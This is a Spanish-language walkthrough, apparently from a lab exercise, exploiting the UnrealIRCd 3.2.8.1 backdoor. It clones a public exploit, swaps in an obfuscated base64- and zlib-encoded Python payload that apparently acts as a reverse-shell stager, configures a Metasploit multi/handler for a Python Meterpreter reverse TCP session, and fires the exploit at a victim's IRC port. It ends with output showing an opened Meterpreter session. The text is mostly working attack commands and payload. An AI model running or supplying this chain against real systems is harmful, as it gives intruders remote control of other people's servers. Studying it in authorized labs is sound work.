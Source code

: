 Clonamos el repositorio a nuestro `kali`:

```shell
git clone https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor.git
cd UnrealIRCd-3.2.8.1-Backdoor/
```

Una vez dentro de la carpeta, editaremos el `exploit.py` de la siguiente forma:

```shell
nano exploit.py

#Dentro del nano
python_payload = f'python -c "exec(__import__(\'zlib\').decompress(__import__(\'base64\').b64decode(__import__(\'codecs\').getencoder(\'utf-8\')(\'eNo9UN9LwzAQfm7+ir4lwRjWWasbVhDxQUSEzTcZo01ODU2TkGRaFf93GzI8uDu+u+9+qtFZH8tgxQCRfWvVs74L0NQsRH8QkUU1Anq1vpxKZUrfmTcg1YKuURH912yL0OZinh1ZsiPePt0+7LfPm7ubR5p4XFhjQERCcLVa8qq5nJVXZyvMLmahidR76AZUwCTAxdQ9jedBAzhyTpFu81b8YFwnBoKv7zEL3IP4IDWlL4sdku0Ra4o+35WGUoMhkl7puZ08+c+e5jBFMIEg6XAuQdjReQiB5B/wvqlTUEJish8c8Dr8UvQHedtfeQ==\')[0])))"'
```

Cambiamos el contenido de lo que viene por defecto en `python_payload` y lo cambiamos por eso, lo guardamos y listo para usar.

Ahora vamos dentro de `metasploit` a poner un `listener/handler` de la siguiente forma:

```shell
use multi/handler
set LHOST <IP>
set LPORT <PORT>
set payload python/meterpreter/reverse_tcp
run
```

Y con esto estariamos a la escucha listos de ejecutar el `exploit`.

Ahora en la otra terminal ejecutaremos el `exploit` de la siguiente forma:

```shell
./exploit.py <IP_VICTIM> 6667 -payload python
```

Info:

```
Exploit sent successfully!
```

Y si todo sale bien, en `metasploit` veremos esto:

```
[*] Started reverse TCP handler on 192.168.16.139:7777 
[*] Sending stage (24772 bytes) to 192.168.16.129
[*] Meterpreter session 1 opened (192.168.16.139:7777 -> 192.168.16.129:48517) at 2024-11-21 04:20:10 -0500

meterpreter >
```

Por lo que ya la habremos explotado.
